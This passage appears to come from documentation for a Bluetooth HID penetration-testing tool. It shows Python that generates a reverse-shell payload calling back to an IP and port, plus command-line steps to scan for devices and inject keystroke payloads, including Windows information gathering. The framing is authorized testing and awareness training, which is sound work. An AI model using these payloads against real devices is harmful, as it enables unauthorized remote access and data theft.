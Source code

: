 ### Generate Payloads Programmatically

```python
from modules import PayloadGenerator

# Generate reverse shell
payload = PayloadGenerator.reverse_shell(
    ip="192.168.1.100",
    port=4444,
    os="linux"
)

# Save to file
import json
with open("my_shell.json", "w") as f:
    json.dump(payload.to_dict(), f, indent=4)
```

---

## 🎯 Attack Scenarios

### Scenario 1: Authorized Penetration Test

**Objective**: Test if users can be compromised via Bluetooth HID

**Steps**:
1. Obtain written authorization
2. Scan for vulnerable Bluetooth devices
3. Test with harmless payload first (rickroll)
4. Escalate to information gathering
5. Document findings
6. Report to client

```bash
# Step 1: Scan for devices
sudo python3 blue-sec.py scan

# Step 2: Test with harmless payload
sudo python3 blue-sec.py hid-test <target> \
  --payload data/payloads/hid/rickroll_test.json

# Step 3: Information gathering (if authorized)
sudo python3 blue-sec.py hid-test <target> \
  --payload data/payloads/hid/info_gather_windows.json
```

### Scenario 2: Security Awareness Training

**Objective**: Demonstrate Bluetooth security risks

**Steps**:
1. Set up controlled lab environment
2. Use test payloads only
3. Show how quickly attacks can happen
4. Educate on prevention
